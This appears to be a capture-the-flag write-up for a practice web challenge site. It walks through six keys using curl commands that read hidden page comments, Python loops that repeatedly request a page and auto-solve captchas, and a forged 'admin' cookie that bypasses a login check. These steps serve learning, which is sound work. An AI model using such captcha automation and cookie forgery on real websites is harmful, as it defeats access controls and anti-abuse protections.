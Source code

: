 # Builds.Hack.Me

<http://ctf.slothparadise.com/>

## Key 1 & 2

``` bash
% curl http://ctf.slothparadise.com/ | grep KEY
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
Dload  Upload   Total   Spent    Left  Speed
100  2421  100  2421    0     0   3407      0 --:--:-- --:--:-- --:--:--  3405
<!--- Here you go: KEY{YourSecondKey} -->
      KEY{YOURFIRSTKEY}=
```

## Key 3

The comment at the bottome of <http://ctf.slothparadise.com/about.php> says 

> You are the 79267th visitor to this page. Every thousandth visitor gets a prize.

To automate the 1000th request i build the following script 

``` Python
#!/usr/bin/env python

import requests
import sys

while True:
    r = requests.get('http://ctf.slothparadise.com/about.php')
    if 'KEY' in r.text:
        print r.text
        sys.exit()

```

Running that and waiting a while i get the following key 

``` HTML
<p>You are the 80000th visitor to this page.
 Congrats, here's your prize: KEY{999ProblemsButAReloadAint1}</p>
```

## Key 4

At <http://ctf.slothparadise.com/walled_garden.php> 1024 captchas need to be solved

Submitting one and looking at the URL and source code shows that this can be scripted 

The submitted url is <http://ctf.slothparadise.com/walled_garden.php?name=bob&captcha=52fdebd4> 

The captcha is in `<pre>` tags so the following script gives a key 

``` Python
#!/usr/bin/env python

import requests
import sys

while True:
    src = requests.get('http://ctf.slothparadise.com/walled_garden.php?name=bob')
    sp = src.text.split('<pre>')[1]
    capt = sp.split('</pre>')[0]
    r = requests.get('http://ctf.slothparadise.com/walled_garden.php?name=bob&captcha=' + capt)
    if 'KEY' in r.text:
        print r.text
        sys.exit()
```

After waiting i receive the next key

``` HTML
 <p> Captcha correct!</p> 
 <p>Congrats! Here is your key: KEY{GodIHopeYouScriptedThis}</p>  
 <p>Solved <?php=$solved?> 
```

# Key 5

At the index page there is a commeted out link to `hidden.php`

``` bash
% curl http://ctf.slothparadise.com/ | grep hidden
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
  Dload  Upload   Total   Spent    Left  Speed
  100  2421  100  2421    0     0  12012      0 --:--:-- --:--:-- --:--:-- 12044
<!--          <li><a href="/hidden.php">Hidden</a></li> -->
```

Looking at this page source i see an `xml` link that is not referenced on the other pages 

``` bash
% curl http://ctf.slothparadise.com/hidden.php | grep .xml
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
  Dload  Upload   Total   Spent    Left  Speed
  100  1416  100  1416    0     0   7047      0 --:--:-- --:--:-- --:--:--  7044
<link rel="service" href="/info.xml">
```

The `xml` page has the next key

``` bash
% curl http://ctf.slothparadise.com/info.xml | grep KEY
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
  Dload  Upload   Total   Spent    Left  Speed
  100   199  100   199    0     0    949      0 --:--:-- --:--:-- --:--:--   952
<super_secret_flag>KEY{AllXMLIsGarbageXML}</super_secret_flag>
```

# Key 6

Back at the hidden page there is a message that i am not an admin. 

The hints from the index page says that Watch for cookies on the web pages. Sometimes they're used for authentication.

Using this info i make the following script

``` Python
#!/usr/bin/env python

import requests
cookie = {'user':'admin'}
r = requests.get('http://ctf.slothparadise.com/hidden.php', cookies = cookie)
print r.text
```

Running this script i get the last key 

``` HTML
<p>Here are your ssh credentials in case you forgot:</p>
<iframe width="560" height="315" src="//www.youtube.com/embed/i8u6EodZseg?rel=0&autoplay=1" frameborder="0" allowfullscreen></iframe>
 <p>KEY{HackThePlanet}</p>
<p>By the way <a href="/hardstuff.zip">here are the files</a> you asked me to hold on to for you.</p>
</body>
```

